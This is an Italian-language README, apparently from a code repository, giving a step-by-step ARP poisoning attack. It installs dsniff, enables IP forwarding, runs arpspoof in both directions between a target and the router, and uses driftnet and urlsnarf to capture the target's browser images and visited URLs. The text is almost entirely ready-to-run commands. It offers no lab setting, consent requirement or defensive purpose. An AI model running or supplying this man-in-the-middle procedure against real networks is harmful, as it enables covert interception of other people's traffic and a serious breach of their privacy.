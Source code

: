 # ARP POISONING

1. Installiamo dsniff
```bash
sudo apt-get install dsniff
```

2. Troviamo ip Router
```bash
ip route show
```

3. Packet Forwarding
```bash
sysctl -w net.ipv4.ip_forward=1
```
3a. Apriamo un altro terminale

4a. Catturiamo il traffico target 

```bash
arpspoof -i {Network Interface} -t {IP Target} {IP Router}
```

4b. Catturiamo il traffico del Router 

```bash
arpspoof -i {Network Interface} -t  {IP Router} {IP Target}
```

4c. Catturiamo immagini del browser dal target
```bash
driftnet -i {Netwrok Interface}
```

4d. Catturiamo infromazioni URL del target
```bash
urlsnarf -i {Netwrok Interface}
```

5. Stoppare 
```bash
sysctl -w net.ipv4.ip_forward=0
```